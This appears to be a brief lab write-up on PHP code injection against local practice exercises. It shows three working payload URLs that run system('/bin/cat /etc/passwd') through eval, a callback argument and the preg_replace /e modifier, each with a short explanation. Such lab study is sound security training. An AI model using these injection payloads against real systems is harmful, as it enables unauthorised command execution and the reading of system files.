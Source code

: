 # Code Injection

## 1

In this example, the input is simply wrapped inside an `eval` call.

`http://localhost:31337/codeexec/example1.php?name=%22.system%28%22/bin/cat%20/etc/passwd%22%29.%22`

## 2

This gets a little more complex, as we have to manipulate a callback to include the string command we want as an argument.

`http://localhost:31337/codeexec/example2.php?order=name, system('/bin/cat%20/etc/passwd')`

## 3

This is a really cool one that I didn't know about.

`http://localhost:31337/codeexec/example3.php?new=system%28%22/bin/cat%20/etc/passwd%22%29&pattern=/sloth/e&base=sloth`

The key is in the `e` modifier passed in to `preg_replace`, which causes the result to be evaluated as PHP code.

Explanation:

https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
